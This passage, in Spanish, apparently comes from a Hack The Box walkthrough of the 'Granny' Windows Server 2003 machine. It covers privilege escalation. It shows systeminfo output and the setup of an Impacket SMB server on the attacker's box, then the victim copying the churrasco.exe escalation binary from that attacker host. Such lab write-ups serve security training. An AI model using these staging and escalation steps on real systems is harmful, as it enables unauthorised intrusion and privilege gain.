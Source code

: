 Podríamos hacer uso de `JuicyPotato`, `PrintSpoofer`, etc, pero en este caso al tratarse de un equipo tan antiguo como es el `Windows Server 2003`, nos darían diversos problemas.

```bash
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
```

Buscando por Internet como poder explotar este privilegio desde un `Windows Server 2003`, nos encontramos con el siguiente blog el cual mencionan un binario llamado `churrasco.exe` que hace una función similar a `JuicyPotato`.

{% embed url="https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/" %}

Nos descargaremos el binario en nuestro equipo y lo compartiremos a través de un servidor SMB.

```bash
❯ ls -l churrasco.exe
.rw-rw-r-- kali kali 30 KB Sat Jan 25 22:57:41 2025  churrasco.exe

❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Desde el equipo víctima, nos copiaremos el binario en una ruta que podamos ejeuctar el binario.

```powershell
C:\Temp>copy \\10.10.16.5\smbFolder\churrasco.exe C:\Temp\churrasco.exe
copy \\10.10.16.5\smbFolder\churrasco.exe C:\Temp\churrasco.exe
        1 file(s) copied.

C:\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\Temp

01/26/2025  12:05 AM    <DIR>          .
01/26/2025  12:05 AM    <DIR>          ..
01/25/2025  11:57 PM            31,232 churrasco.exe
               1 File(s)         31,232 bytes
               2 Dir(s)   1,319,219,200 bytes free
```

